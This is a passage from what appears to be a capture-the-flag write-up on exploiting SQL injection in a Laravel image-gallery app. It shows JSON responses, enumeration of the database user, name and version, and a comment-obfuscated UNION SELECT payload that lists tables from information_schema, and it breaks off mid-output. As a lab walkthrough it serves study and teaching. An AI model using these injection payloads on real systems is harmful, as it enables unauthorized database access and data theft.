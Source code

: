     {
      "status":"success",
      "data":[
        {
          "id":1,
          "file":"2",
          "genre":"3",
          "created_at":"1970-01-01T00:00:04.000000Z",
          "updated_at":"1970-01-01T00:00:05.000000Z",
          "url":"\/storage\/2"
        }
      ]
    }
    

The input numbers one through five are in each of these columns, and the `url`
is built from the `file` (as guessed).

#### Database Enumeration

Now I can use that template to make queries into the database. Where I have
“2” and “3” are the only things that can take strings, so I’ll focus there. If
I replace “2” with “user()” and “3” with “database()”, it shows the results:

    
    
    {
        "status":"success",
        "data":[
            {
                "id":10,
                "file":"laravel@localhost",
             	"genre":"intentions",
             	"created_at":"1970-01-01T00:00:04.000000Z",
             	"updated_at":"1970-01-01T00:00:05.000000Z",
             	"url":"\/storage\/laravel@localhost"
            }
        ]
    }
    

The user is laravel@localhost, and the database is intentions. I’ll use
`version()` to get the version of 10.6.12-MariaDB-0ubuntu0.22.04.1.

I’ll change genres to get the list of databases and tables:

    
    
    ')/**/UNION/**/SELECT/**/1,table_schema,table_name,4,5/**/from/**/information_schema.tables/**/where/**/table_schema/**/!=/**/'information_schema'#
    

This will get the database name in the `file` and the table name in the
`genre` of the output, and it will skip tables in the information_schema table
(as those are standard and well defined). It returns:

    
    
    {
        "status":"success",
        "data":[
            {
                "id":1,
                "file":"intentions",
                "genre":"gallery_images",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            },
            {
                "id":1,